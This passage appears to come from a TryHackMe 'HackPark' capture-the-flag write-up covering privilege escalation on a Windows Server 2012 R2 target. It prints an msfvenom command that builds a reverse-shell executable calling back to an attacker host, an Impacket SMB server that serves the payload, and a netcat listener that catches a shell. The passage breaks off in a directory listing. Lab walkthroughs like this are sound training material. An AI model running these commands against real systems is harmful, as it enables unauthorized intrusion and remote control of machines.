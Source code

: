 ```
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.197.201
                                 [02]: fe80::4d29:32f9:24d9:c8f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

`Windows 2012 R2 6.3 Build 9600`

Further enumerate the machine. What is the name of the abnormal service running?

`WindowsScheduler`

What is the name of the binary you're supposed to exploit?

```
kali@kali:~/CTFs/tryhackme/HackPark$ msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.106.222 LPORT=9002 -f exe -o Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] Skipping invalid encoder /x86/shikata_ga_nai
[!] Couldn't find encoder to use
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe

kali@kali:~/CTFs/tryhackme/HackPark$ sudo smbserver.py smbfolder .
[sudo] password for kali:
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.197.201,49267)
[*] AUTHENTICATE_MESSAGE (\,HACKPARK)
[*] User HACKPARK\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SMBFOLDER)
[*] Closing down connection (10.10.197.201,49267)
[*] Remaining connections []
```

```
kali@kali:~/CTFs/tryhackme/HackPark$ nc -lnvp 9001
Listening on 0.0.0.0 9001

id
Connection received on 10.10.197.201 49260
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog

cd "C:\Program Files (x86)\SystemScheduler"
c:\windows\system32\inetsrv>cd "C:\Program Files (x86)\SystemScheduler"
dir
C:\Program Files (x86)\SystemScheduler>dir
 Volume in drive C has no label.
```